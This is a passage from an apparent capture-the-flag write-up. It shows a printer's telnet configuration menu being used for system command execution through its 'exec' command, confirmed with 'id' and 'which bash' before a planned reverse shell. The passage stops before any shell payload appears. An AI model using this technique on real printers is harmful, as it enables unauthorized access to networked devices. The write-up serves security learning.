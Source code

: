 It worked!

### Execution

The login message says that `?` will show the help. I’ll try that:

```

> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session

```

Most of it is about configuring the printer, but the last one, `exec` is very interesting for my purposes. I’ll try running `id`:

```

> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)

```

That’s execution!

### Reverse Shell

My go-to reverse shell is bash (see my video on how it works [here](https://www.youtube.com/watch?v=OjkVep2EIlw)). Given this is a printer, I’ll check if `bash` is on the box, and it is:

```

> exec which bash
/usr/bin/bash

```
